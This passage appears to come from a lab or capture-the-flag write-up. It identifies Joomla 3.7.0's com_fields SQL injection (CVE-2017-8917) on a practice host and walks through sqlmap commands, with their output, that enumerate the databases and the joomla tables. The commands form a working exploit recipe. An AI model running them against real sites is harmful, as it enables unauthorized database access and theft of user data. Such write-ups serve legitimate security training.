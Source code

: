 Also, among other things, there is some indication that the joomla version installed on the
server might have a known vulnerability:

```bash
| VULNERABLE:
| Joomla! 3.7.0 'com_fields' SQL Injection Vulnerability
| State: VULNERABLE
| IDs: CVE:CVE-2017-8917
| Risk factor: High CVSSv3: 9.8 (CRITICAL) (CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
| An SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers
| to execute aribitrary SQL commands via unspecified vectors.
```

The scan indicates that Joomla version 3.7.0 is installed on the server.
You can confirm this by checking the _/language/en-GB/en-GB.xml_ file.

## Sql Injection

Further research the vulnerability at <https://www.exploit-db.com/exploits/42033>.
It is a sql injection vulnerability and you can use **sqlmap** to exploit it.
Running

```bash
sqlmap -u "http://10.10.154.219/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

you obtain the names of the databases available in the DBMS:

```bash
web server operating system: Linux CentOS
web application technology: Apache 2.4.6, PHP 5.6.40
back-end DBMS: MySQL >= 5.0
[17:39:02] [INFO] fetching database names
[17:39:03] [INFO] used SQL query returns 5 entries
[17:39:03] [INFO] retrieved: information_schema
[17:39:03] [INFO] retrieved: joomla
[17:39:03] [INFO] retrieved: mysql
[17:39:03] [INFO] retrieved: performance_schema
[17:39:03] [INFO] retrieved: test
```

**joomla** is the one that most likely would contain the users' informations.
Run

```bash
sqlmap -u "http://10.10.154.219/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --tables -D joomla
```

and you will obtain the tables of the **joomla** db:

```bash
Database: joomla
[72 tables]
+----------------------------+
| #__assets                  |
| #__associations            |
| #__banner_clients          |
| #__banner_tracks           |
| #__banners                 |
| #__categories              |
| #__contact_details         |
| #__content_frontpage       |
......
| #__updates                 |
| #__user_keys               |
| #__user_notes              |
| #__user_profiles           |
```